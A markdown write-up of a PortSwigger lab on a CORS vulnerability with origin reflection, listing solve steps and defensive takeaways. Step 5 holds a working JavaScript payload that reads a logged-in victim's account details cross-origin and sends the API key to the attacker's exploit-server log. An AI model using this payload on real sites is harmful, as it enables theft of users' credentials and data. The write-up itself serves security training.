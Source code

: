 # CORS - vulnerability with basic origin reflection

## 📌 Lab Details
- **Title**: CORS vulnerability with basic origin reflection  
- **Difficulty**: Apprentice
- **Category**: Cross-origin Resource Sharing
- **Lab URL**: https://portswigger.net/academy/labs/launch/3c3123251c8faea3353dafdf70678f6d9241bbcdda2f8772ce17fb4dee20ca0d?referrer=%2fweb-security%2fcors%2flab-basic-origin-reflection-attack

## 🔍 Summary
This lab demonstrated how **insecure CORS configuration** (trusting all origins with credentials) can be exploited using `XMLHttpRequest` with `withCredentials` to steal sensitive data. By hosting malicious JavaScript on your exploit server, you retrieved the `administrator’s API key` cross-origin to complete the lab.

## 🛠 Steps to Solve
1. Use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater** and resubmit it with the added header: `Origin:https://example.com`.
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. Inject the payload on the **Exploit** server:
   ```sh
   <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
    </script>
    ```
6. Deliver the exploit to the victim and access the log to find the `API` key.

## 📖 Key Takeaways
- Trusting all origins with `Access-Control-Allow-Credentials` true is dangerous.
- Attack uses `XMLHttpRequest` + `withCredentials` to fetch victim's data while authenticated.
- Always **validate `Origin` header on the server side**, avoid reflecting arbitrary origins when credentials are allowed.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/d71bf3d3-e595-457c-9cb3-3fcb82b9bafe" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c25e8ad2-6428-4d8b-85ac-0f589c5e40f6" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/7a6c3dde-52af-4b53-8f0b-9a9b49239a07" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e65ac610-c9f3-4237-bc50-d0b36be032c3" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5fba13b5-a2f4-477a-8ddf-5e63f89531a7" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ef5ce90d-cc54-4e29-9dcc-5338b8ea1df7" />
